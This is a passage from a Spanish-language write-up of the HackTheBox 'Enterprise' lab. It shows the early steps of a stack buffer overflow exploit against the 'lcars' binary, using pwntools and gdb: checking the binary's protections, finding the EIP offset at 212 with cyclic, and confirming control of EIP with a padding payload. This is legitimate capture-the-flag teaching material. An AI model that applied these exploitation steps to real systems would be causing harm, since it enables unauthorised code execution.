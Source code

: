 * [Writing exploits with **pwntools**](https://tc.gts3.org/cs6265/2019/tut/tut03-02-pwntools.html).

**(Ya hablaremos de las protecciones del binario)**

Ejecutemos pero veamos el debug con **gdb** de una vez:

```bash
❭ python3 exploit.py ./lcars GDB
[*] '/sec/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Starting local process '/usr/bin/gdbserver': pid 907075
[*] running in new terminal: /usr/bin/gdb -q  "./lcars" -x /tmp/pwn4qa4544z.gdb
```

Y con **tmux** se nos abre otro panel en la misma ventana ejecutando **gdb**, escribimos `continue` (o `c`) y obtenemos:

![112bash_gdb_segFault](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112bash_gdb_segFault.png)

Nos enfocaremos en el apartado **REGISTERS** y en uno de ellos por ahora:

* Registro `eip`, encargado de mostrar la siguiente dirección a la que ira el programa.

> [Información sobre los registros](https://www.tutorialspoint.com/assembly_programming/assembly_registers.htm)

En nuestro caso 4 registros están siendo sobreescritos por parte de nuestro payload, la idea es extraer exactamente la posición del paylaod que contiene el registro **eip**, ya que si es el registro que indica a donde ir, teniendo control sobre él, podríamos poner cualquier dirección a la cual queramos que vaya, esto lo podemos hacer con el mismo **cyclic**:

```bash
...
# *EIP  0x63616164 ('daac')
...
pwndbg> cyclic -l daac
212
```

En la posición 212 encuentra los caracteres **daac**, pues generemos **212** A's **4** B's y **4** C's para mostrar mejor esto y enviémoslas ;)

```py
...
payload = "A"*212·                                                                                                                                                                         payload += "B"*4 + "C"*4
...
```

```bash
...
*EAX  0xfe
*EBX  0x41414141 ('AAAA')
 ECX  0x0
 EDX  0x0
*EDI  0xf7f20000 (_GLOBAL_OFFSET_TABLE_) ◂— insb   byte ptr es:[edi], dx /* 0x1e4d6c */
*ESI  0xf7f20000 (_GLOBAL_OFFSET_TABLE_) ◂— insb   byte ptr es:[edi], dx /* 0x1e4d6c */
*EBP  0x41414141 ('AAAA')
*ESP  0xffdffc70 ◂— 'CCCC'
*EIP  0x42424242 ('BBBB')
...
```
